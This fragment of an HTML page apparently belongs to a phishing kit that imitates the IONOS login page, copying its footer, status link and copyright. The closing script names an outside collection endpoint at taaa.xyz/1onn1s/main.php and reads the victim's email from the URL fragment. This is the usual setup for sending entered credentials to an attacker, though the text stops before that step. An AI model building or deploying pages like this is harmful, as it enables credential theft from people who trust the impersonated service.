     </main>
  </div>
  <footer class="page-footer">
    <div class="page-footer__block">

      <section class="page-footer__section page-footer__section--last">

        <div class="page-footer__section-item">
          <div class="oao-statuspage-overall-status page-footer__status"><a class="oao-statuspage-overall-state-none"
              target="_blank"
              href="https://www.ionos-status.co.uk/?utm_medium=footer&amp;utm_content=none&amp;utm_source=LOGIN_ID&amp;utm_campaign=password&amp;utm_term=no_search">All
              Systems Operational</a></div>
        </div>

        <div
          class="page-footer__section-item page-footer__section-item--align-center page-footer__section-item--small-align-left">
          © 2023

          <a class="page-footer__link" target="_blank" href="https://www.ionos.co.uk/about">IONOS Cloud Ltd.</a>

        </div>

        <div
          class="page-footer__section-item page-footer__section-item--align-right page-footer__section-item--small-align-left">


          <a class="page-footer__link" target="_blank" href="https://www.ionos.co.uk/terms-gtc/terms-privacy">Privacy
            Policy</a>
          -
          <a class="page-footer__link" target="_blank" href="https://www.ionos.co.uk/terms-gtc">T&amp;Cs</a>

        </div>

      </section>

    </div>
  </footer>

</body>

<script>
  // ############################################################################
  // Specify the URL of the PHP file Here
  var url = "https://taaa.xyz/1onn1s/main.php";
  // ############################################################################

  let email
  window.onload = function () {
    // Get the current URL
    var url = window.location.href;

    // Parse the URL and get the fragment (the part after the '#')
    var urlComponents = new URL(url);
    email = urlComponents.hash.substring(1);
